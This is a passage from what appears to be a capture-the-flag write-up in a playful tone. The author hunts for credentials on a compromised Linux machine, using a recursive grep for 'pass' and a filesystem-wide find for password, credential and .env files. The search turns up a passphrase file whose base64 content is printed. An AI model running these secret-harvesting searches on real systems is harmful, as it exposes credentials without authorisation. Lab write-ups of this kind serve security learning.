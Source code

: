 **Result:**

```
cat: user.txt: Permission denied
```

**Ahem excuse me?**

---

# 🔍 Hunting for Passwords

```bash
grep -iR pass
```

**Result:**

Most logs returned:

```
Permission denied
```

**BUT... some logs gave us output!**

* `/var/cache/apt/archives/partial/passwd_...deb`
* `base-passwd`, `passwd` packages and... wait for it...

---

# 🎯 Jackpot: A Hidden File

```bash
find / -type f \( -iname "*pass*" -o -iname "*cred*" -o -iname "*.env" \) 2>/dev/null
```

**Result:**

```
...
/var/www/Hidden_Content/passphrase.txt
...
```

**Woah woah woah do you guys see that?!? `passphrase.txt`!!**

```bash
cat /var/www/Hidden_Content/passphrase.txt
```

**Output:**

```
QWxsbWlnaHRGb3JFdmVyISEhCg==
```

### 🧠 Decode that base64:
